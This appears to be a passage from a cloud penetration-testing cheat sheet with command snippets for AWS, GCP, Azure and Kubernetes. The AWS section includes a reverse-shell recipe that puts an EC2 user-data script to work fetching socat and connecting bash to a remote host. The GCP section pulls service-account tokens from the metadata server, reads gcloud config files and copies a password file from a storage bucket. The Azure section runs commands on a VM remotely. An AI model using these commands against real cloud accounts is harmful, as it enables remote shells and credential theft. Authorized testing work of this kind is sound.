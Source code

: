 ```console
SubnetId="subnet-0ca23ae417686dd98"
GroupId="sg-00eebb34bb8fe072e"
aws ec2 run-instances --image-id 'ami-00a208c7cdba991ea' --iam-instance-profile Arn=$ARN --key-name [key_name] --subnet-id $SubnetId --security-group-ids $GroupId --output table --profile [profile]

# getting a reverse shell with user data if `run-instances` permissions are set but not `create-key-pair`
aws ec2 run-instances --image-id 'ami-00a208c7cdba991ea' --iam-instance-profile Arn=$ARN --user-data file://[userdata_file] --subnet-id $SubnetId --security-group-ids $GroupId --output table --profile [profile]
## example user-data file
curl -o /tmp/socat https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat
/tmp/socat tcp4:<remote-ip>:<remote-port> exec:/bin/bash


```
### GCP Pentesting
```console
# list all metadata directories and files
curl "http://metadata.google.internal/computeMetadata/v1/?recursive=true&alt=text" -H "Metadata-Flavor: Google"

# retrieve instance token - the HTTP header ``Metadata-Flavor: Google`` must be specified!
curl -s http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token -H 'Metadata-Flavor: Google' | jq

# cat config files
cat ~/.config/gcloud/*

# get projects iam policies
PROJECT=$(gcloud config get-value project) && gcloud projects get-iam-policy $PROJECT

curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes" -H "Metadata-Flavor: Google"

# get access token info
TOKEN="<TOKEN>"
curl -H "Content-Type: application/x-www-form-urlencoded" -d "access_token=$TOKEN" https://www.googleapis.com/oauth2/v1/tokeninfo

gsutil cp gs://e2etest-secrets/test-user-password ./test
```
### Azure Pentesting
```console
# login 
az login

# execute powershell in VM
az vm run-command invoke --command-id RunPowerShellScript --name <vm-name> -g <resource-group> --scripts @<ps-script-name> --parameters "arg1=foo1" "arg2=foo2"

# retrieve metadata
curl -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/instance?api-version=2020-09-01" | jq
```
### Kubernetes Pentesting
```console
kubectl cluster-info
```
### Ngrok Cloud Tunneling
```console
```